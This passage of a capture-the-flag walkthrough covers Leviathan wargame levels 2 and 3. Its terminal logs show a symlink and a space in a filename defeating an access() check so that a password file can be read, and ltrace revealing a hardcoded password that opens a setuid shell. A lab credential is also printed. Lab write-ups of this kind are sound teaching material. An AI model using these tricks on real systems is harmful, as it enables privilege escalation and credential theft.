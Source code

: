 ```
<... system resumed> )                                                                           = 256
+++ exited (status 0) +++
leviathan2@gibson:/tmp/dir$ ~/printfile "test test"
/bin/cat: test: No such file or directory
/bin/cat: test: No such file or directory
leviathan2@gibson:/tmp/dir$ ln -s /etc/leviathan_pass/leviathan3 test
leviathan2@gibson:/tmp/dir$ ls -al
total 504
drwxrwxr-x    2 leviathan2 leviathan2   4096 Apr  4 15:52 .
drwxrwx-wt 3420 root       root       507904 Apr  4 15:52 ..
lrwxrwxrwx    1 leviathan2 leviathan2     30 Apr  4 15:52 test -> /etc/leviathan_pass/leviathan3
-rw-rw-r--    1 leviathan2 leviathan2      0 Apr  4 15:51 test test
leviathan2@gibson:/tmp/dir$ ~/printfile "test test"
Q0G8j4sakn
Q0G8j4sakn
leviathan2@gibson:/tmp/dir$ ~/printfile test
You cant have that file...
leviathan2@gibson:/tmp/dir$
```

cat can print several files, seperated by a space. But the check via access() will check the full filename with the space. So we pass this check and cat out the file afterwards.

## Level 3
```
Username: leviathan3
Password: Q0G8j4sakn
```

Again we have a binary that checks for a password and starts a shell afterwards. We can easily solve it again with ltrace:
```
leviathan3@gibson:~$ ls -al
total 40
drwxr-xr-x  2 root       root        4096 Feb 21 22:02 .
drwxr-xr-x 83 root       root        4096 Feb 21 22:03 ..
-rw-r--r--  1 root       root         220 Jan  6  2022 .bash_logout
-rw-r--r--  1 root       root        3771 Jan  6  2022 .bashrc
-r-sr-x---  1 leviathan4 leviathan3 18072 Feb 21 22:02 level3
-rw-r--r--  1 root       root         807 Jan  6  2022 .profile
leviathan3@gibson:~$ ./level3
Enter the password> pass
bzzzzzzzzap. WRONG
leviathan3@gibson:~$ ltrace ./level3
__libc_start_main(0x80492bf, 1, 0xffffd5f4, 0 <unfinished ...>
strcmp("h0no33", "kakaka")                                                                       = -1
printf("Enter the password> ")                                                                   = 20
fgets(Enter the password> pass
"pass\n", 256, 0xf7fab620)                                                                 = 0xffffd3cc
strcmp("pass\n", "snlprintf\n")                                                                  = -1
puts("bzzzzzzzzap. WRONG"bzzzzzzzzap. WRONG
)                                                                       = 19
+++ exited (status 0) +++
leviathan3@gibson:~$ ./level3
Enter the password> snlprintf
[You've got shell]!
$ id
uid=12004(leviathan4) gid=12003(leviathan3) groups=12003(leviathan3)
$ cat /etc/leviathan_pass/leviathan4
```